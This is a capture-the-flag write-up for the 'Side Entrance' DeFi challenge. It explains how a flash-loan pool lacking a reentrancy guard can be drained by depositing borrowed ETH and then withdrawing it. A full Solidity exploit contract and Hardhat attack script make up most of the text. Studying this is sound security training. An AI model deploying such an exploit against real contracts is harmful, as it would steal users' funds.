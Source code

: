 # SideEntrance

## Analysis

Deposit routine simply keeps a mapping of user and transferred ETH to the pool. `withdraw` allows the user to withdraw all their funds at once. 
This smart contract does not use Re-entrancy guard. The objective is to drain the pool of ETH. Flashloan user needs to implement the `execute` function.

## Problem

There is a sequence of calls that makes the funds to become owned by the receiver. 

## Solution

```js
        // deploy attacker contract
        const ExploitSideEntranceFactory = await ethers.getContractFactory("ExploitSideEntrance", attacker);
        const ExploitSideEntrance = await ExploitSideEntranceFactory.deploy(this.pool.address);

        // connect to the exploit contract
        ExploitSideEntrance.connect(attacker).exploit();

```
ExploitSideEntrance Contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../side-entrance/SideEntranceLenderPool.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "hardhat/console.sol";


contract ExploitSideEntrance {
    using Address for address;
    using Address for address payable;

    // Receiver needs to know the pool it is receiving from
    SideEntranceLenderPool private immutable pool;
    address private immutable pool_address;

    // attacker
    address private immutable owner;

    constructor(address payable poolAddress) {
        pool_address = poolAddress;
        pool = SideEntranceLenderPool(poolAddress);
        owner = msg.sender;
    }

    // arbitrary function
    //https://swcregistry.io/docs/SWC-104
    function execute() external payable {
        // make a deposit with the loaned amount
        pool_address.functionCallWithValue(
            abi.encodeWithSignature("deposit()"),
            msg.value
        );

        // which will also satisfy repaying the loan
    }

    function exploit() public payable {
        // this will call the execute routine above
        pool.flashLoan((pool_address.balance));

        // withdraw all the funds
        pool.withdraw();
    }

    receive () external payable {
        uint256 amountToWithdraw = address(this).balance;
        payable(owner).sendValue(amountToWithdraw);
    }
}
```

Explanation

The `flashLoan` function checks the balance of the contract after the loan however, users can contribute to the pool and withdraw contributions.

A user can contribute to the pool using borrowed funds. Borrowed funds now become owned by the user. 

This does not violate the pool balance. A user may borrow all funds in the pool. If all the funds in the pool are borrowed and deposited into the pool, the pool balance will be unchanged however all funds now belong to the borrower.

The user can later call `withdraw` to withdraw the funds thereby bypassing `flashLoan` and draining the pool.

Finally the funds can be transferred to the attacker account.
